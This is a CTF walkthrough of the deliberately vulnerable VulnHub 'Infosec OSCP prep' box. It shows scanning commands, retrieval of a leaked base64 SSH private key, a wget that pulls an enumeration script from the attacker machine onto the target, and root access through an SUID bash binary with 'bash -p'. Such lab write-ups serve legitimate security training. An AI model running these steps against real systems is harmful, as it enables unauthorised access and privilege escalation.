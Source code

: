 ```yaml
---
title: "Infosec OSCP prep"
date: 2024-06-12
draft: false
summary: "Writeup for Infosec OSCP prep CTF challenge on VulnHub."
tags: ["linux", "suid", "wordpress"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "images/cover.png"
  caption: "Infosec OSCP prep VulnHub Challenge"
  alt: "Infosec OSCP prep cover"
platform: "VulnHub"
---
```


*Infosec OSCP prep* is a boot to root box that contains 1 flag in the */root/* directory.
<!--more-->
You can download  *Infosec OSCP prep* from **VulnHub** by clicking on the link given below: 
- https://www.vulnhub.com/entry/infosec-prep-oscp,508/

## Recon

After booting the machine on **VMware**, I performed a network scan using **netdiscover** to discover the target IP.

```bash
netdiscover -r 192.168.1.0/24  
```

After finding the target IP, I performed an **nmap** aggressive scan to identify open ports and services.

```
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 33060    | mysql       |

![](images/1.png)

## Initial Foothold

I visited the web application that was running on the target using my browser.

![](images/2.png)

![](images/3.png)

The home page disclosed 2 things:
- Username: *oscp*.
- CMS: *WordPress*.

Upon closer inspection, when I clicked on the *SAMPLE PAGE* button on the top right corner, I got redirected to another page. I scrolled down and found a link to go to a login page.

![](images/4.png)

Upon clicking the *Log in* button, I got redirected to a wordpress login panel.

![](images/5.png)

To find more hidden directories and files, I ran a scan using **dirb**.

```shell
dirb http://TARGET/ /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](images/6.png)

![](images/7.png)

I visited the *robots.txt* page and found a link to a file called *secret.txt*

![](images/8.png)

Upon visiting *secret.txt*, I get a base64 encoded block of text.

![](images/9.png)

I decoded this file and downloaded it onto my system.

```shell
curl http://TARGET/secret.txt | base64 -d > secret.txt
```

![](images/10.png)

It turned out to be a private key. In order to **ssh** into the target using it, I had to find a valid username. Since the site was running on WordPress, I ran a scan using **wpscan** but didn't find anything besides the version and theme.

```bash
wpscan --url http://192.168.1.7
```

![](images/11.png)

![](images/12.png)

I had earlier identified a username called *oscp* so, I tried using it along with the private key. To use the key for authentication, I modified its permissions so that only the owner has read and write access.

```shell
mv secret.txt private.key
chmod 600 private.key
```

![](images/13.png)

I then authenticated to the box using the key:

```shell
ssh -i private.key oscp@TARGET
```

![](images/14.png)

I got initial access to the system.

## Privilege Escalation

The challenge description mentioned that the flag was present inside the */root* directory. So, I tried downloaded **linux smart enumeration** script from **github** to enumerate privilege escalation vectors.

- https://github.com/diego-treitos/linux-smart-enumeration

```shell
cd /tmp
which wget
wget "http://KALI/lse.sh"
chmod +x lse.sh
```

![](images/15.png)

It detected an **SUID** bit on the **bash** binary.

![](images/16.png)

I manually verified this by using the following command:

```bash
find / -user root -perm -u=s -ls 2>/dev/null
```

![](images/17.png)

Now I can simply type **bash -p** to get root access.

The **bash -p** command starts a new instance of the Bash shell in "privileged" mode. In simple terms, it means:
- **bash** is the command to start a new Bash shell.
- **-p** stands for "privileged mode."

With root access, I captured the flag from the *root* directory.

![](images/18.png)

## Closure

Here's a short summary of how I pwned the system:
- I found a username from the webpage: *oscp*.
- I found an SSH private key from the *robots.txt* listing inside *secret.txt*.
- I logged in as *oscp* using this SSH private key.
- I found an SUID bit on */bin/bash*.
- I executed privileged mode on **bash** using **bash -p**.

That's it from my side. Happy Hacking :)

------------------------------------------------------------------------------------